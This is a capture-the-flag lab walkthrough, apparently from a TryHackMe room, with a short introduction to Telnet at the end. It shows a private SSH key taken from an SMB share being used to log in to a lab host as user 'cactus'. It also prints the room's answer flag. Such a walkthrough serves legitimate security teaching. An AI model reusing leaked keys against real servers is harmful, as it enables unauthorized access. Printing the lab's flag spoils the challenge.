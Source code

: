 Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]". Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?
```bash
# cat the id_rsa.pub to see the username
$ cat id_rsa.pub                                                     
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb

# the username = cactus
# change the permission of id_rsa
$ chmod 600 id_rsa

# ssh to cactus@10.10.88.18
$ ssh cactus@10.10.88.18 -i id_rsa

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  7 03:09:09 UTC 2021

  System load:  0.08               Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.88.18
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt 
THM{smb_is_fun_eh?}
```
The flag is **THM{smb_is_fun_eh?}**.


## Understanding Telnet
---
---
---
#### Telnet?
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

